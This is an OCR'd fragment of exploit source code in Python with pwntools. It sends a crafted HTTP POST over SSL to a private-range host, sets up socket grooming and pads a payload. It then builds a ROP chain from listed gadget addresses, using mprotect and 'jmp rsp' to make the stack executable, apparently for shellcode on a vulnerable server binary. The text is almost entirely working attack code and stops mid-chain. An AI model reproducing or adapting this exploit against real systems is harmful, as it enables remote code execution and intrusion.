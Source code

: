 ```c
data = b"POST " + path + b" HTTP/1.1\r\nHost: 192.168.232.129\r\nContent-Length: " + CL.encode() + b"\r\nUser-Agent: Mozilla/5.0\r\nContent-Type: text/plain;charset=UTF-8\r\nAccept: */*\r\n\r\na=1"

exp_sk = create_ssl_ctx()

for i in range(20):
    sk = create_ssl_ctx()
    socks.append(sk)

exp_sk.sendall(data)

payload = cyclic(40000)
payload = b"x" * (3613 - 192)

"""
0x0000000001356e88 : mov rax, rdx ; pop rbp ; ret
0x0000000000550a38 : mov rax, rdx ; ret

0x000000000076e03e : pop rcx ; ret
0x0000000002c2c9b0 : and rax, rcx ; ret

0x000000000053d5a5 : pop rdi ; ret
0x0000000000687c69 : pop rsi ; ret
0x0000000001f407f4 : mov rdx, rax ; sub rdx, rdi ; sub qword ptr [rsi], rdx ; ret

0x0000000000687c69 : pop rsi ; ret
0x000000000045da22 : mov rdi, rdx ; test esi, esi ; jne 0x45da30 ; ret

0x0000000000687c69 : pop rsi ; ret

0x000000000043f942 : pop rdx ; ret

0x00000000005ecfe6 : jmp rsp

"""

mov_rax_rdx_ret = 0x0000000000550a38
pop_rcx_ret = 0x000000000076e03e
and_rax_rcx_ret = 0x0000000002c2c9b0
pop_rdi_ret = 0x000000000053d5a5
pop_rsi_ret = 0x0000000000687c69
mov_rdx_rax_ret = 0x0000000001f407f4
mov_rdi_rdx_ret = 0x000000000045da22
pop_rdx_ret = 0x000000000043f942
mprotect_plt = 0x0043F460
jmp_rsp = 0x00000000005ecfe6

gadget = b""
gadget += pwn.p64(mov_rax_rdx_ret)

# for dirty write, 进程会修改该处栈数据
gadget += pwn.p64(pop_rcx_ret)
gadget += pwn.p64(0x0000000001356e88)

gadget += pwn.p64(pop_rcx_ret)
gadget += pwn.p64(0xfffffffffffff000)
gadget += pwn.p64(and_rax_rcx_ret)
gadget += pwn.p64(pop_rdi_ret)
gadget += pwn.p64(0)
gadget += pwn.p64(pop_rsi_ret)
gadget += pwn.p64(writeable_address)
gadget += pwn.p64(mov_rdx_rax_ret)
gadget += pwn.p64(pop_rsi_ret)
```